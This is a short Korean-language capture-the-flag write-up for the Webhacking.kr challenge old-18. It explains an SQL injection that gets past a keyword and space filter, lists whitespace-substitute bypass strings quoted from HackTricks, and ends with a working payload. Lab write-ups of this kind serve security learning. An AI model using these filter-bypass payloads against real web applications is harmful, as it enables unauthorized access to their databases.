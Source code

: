 ```yaml
---
title: ["[Webhacking.kr] old-18 (sqli - 10)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-18/recon.png)

`result[id]`가 `admin`이 되어야 한다.

## Analysis

`preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])`  
SQL 인젝션을 방지하기 위한 필터링이다.  
이렇게 SQL 구문이 필터링되어 있으면, 대부분 SQLi 문제라고 보면 된다.  
`&nbsp;`, `/`, `(`, `)`, `|`, `&`, `select`, `from`, `0x`를 필터링하며, 대소문자 구분을 하지 않는다.  

`select id from chall18 where id='guest' and no=$_GET[no]`  
타겟 쿼리는 다음과 같으므로,  
`select id from chall18 where id='guest' and no=2 or no=2`로 쿼리를 바꾸면 된다.  

하지만, `&nbsp;`(%20)이 필터링 된다.  

[No Space (%20) - bypass using whitespace alternatives](https://book.hacktricks.xyz/pentesting-web/sql-injection)  
```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

## Payload

` `  대신에 `%09`를 써보자.  

```
/?no=2%09or%09no=2
```
